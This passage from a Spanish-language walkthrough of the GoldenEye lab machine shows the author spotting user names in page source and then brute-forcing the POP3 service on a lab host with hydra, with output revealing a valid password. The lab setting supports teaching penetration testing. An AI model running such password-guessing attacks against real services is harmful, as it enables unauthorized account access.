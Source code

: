 ![](/assets/images/vh-goldeneye/goldeneye-web5.png)

Si vemos el código fuente hasta abajo, tenemos una leyenda que nos dice ***Qualified GoldenEye Network Operator Supervisors:  Natalya Boris***; por lo que ya debemos estar pensando que podrian ser usuarios a nivel de sistema. Nos vemos nada más interesante aquí, así que vamos a pasar por otros puertos que nos dio `nmap` y este caso sería el puerto 55007 asociado al servicio POP3. Si probamos las credenciales que tenemos, no obtenemos ningún resultado, así que vamos a tratar de emplear fuerza bruta para obtener las credenciales para ambos usuarios y para este caso vamos utilizar el diccionario `/usr/share/wordlists/fasttrack.txt` debido a que la contraseña no aparece en nuestro diccionario de confianza `rockyou.txt`:

```bash
❯ hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.0.0.24 -s 55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-01 18:13:13
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.0.0.24:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 10.0.0.24   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-01 18:15:53
```
